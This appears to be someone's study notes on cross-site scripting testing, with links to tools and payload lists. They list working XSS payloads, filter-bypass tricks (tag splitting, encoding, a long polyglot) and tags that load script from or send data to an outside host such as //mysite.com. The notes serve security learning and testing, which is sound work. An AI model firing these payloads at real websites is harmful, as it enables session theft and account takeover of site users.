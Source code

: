 Resources [link](https://www.youtube.com/watch?v=_jz5qFWhLcg&ab_channel=RanaKhalil)

# XSS
- `<img src=x onerror=alert(0)>`
- `?"></script><base%20c%3D=href%3Dhttps:\mysite>`
    - ex script to send back to site
- `'"-->`  
- [Payloads](https://github.com/payloadbox/xss-payload-list)
- Tools (not sure abou thte category test):
    - general [xssrapy](https://github.com/DanMcInerney/xsscrapy)
    - [brutexss](https://github.com/shawarkhanethicalhacker/BruteXSS-1)
    - DOM [blueclosure](https://www.blueclosure.com/) - paid
    - [KNOXSS](https://knoxss.me/?page_id=1974) - paid

## notes
- if has sink (place to exe) don't need script tag since program will call for us

## XSS WAF filter?
- yes - bad since xss most common to mitigate vuln
    - what else are they just filtering?
        - eg: SSRF? Filtering just internal ips?
    - shows overall security

### WAF Bypasses
- break up words for ex: `<sscriptcript>` -> `<script>` when script gets taken out
- encode (url / html)
- polgots - 0 idea what is
    - ex: `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`

## Testing for XSS and filtering
1. testing different encoding - weird behavior?
- does single encoding or double encoding do anything?
    - encoding changes once sent may be finding
    - encoding is always defaulted to the same might be nothing
- Ghetto Bypass (encodings to try) - [here](https://d3adend.org/xss/ghettoBypass)
2. Reverse engineering the dev's thoughts 
    - why did they create this and where else could this filter be:
        - filtering full tags but not filtering `<script`
            - bypass: `<script src=//mysite.com?c=`
                - appending tag to parameter value within the html
        - blacklist of bad html tags?
            - maybe forgot to add `<svg>`
        - how does website handle encodings, file uploads
    - Testing for XSS flow:
        - how are non malicious html tags handled 
            - eg: `<h1>`
        - Incomplete tags?
            - eg: `<iframe src=//url.com/c=`
        - encodings?
        - blacklist?
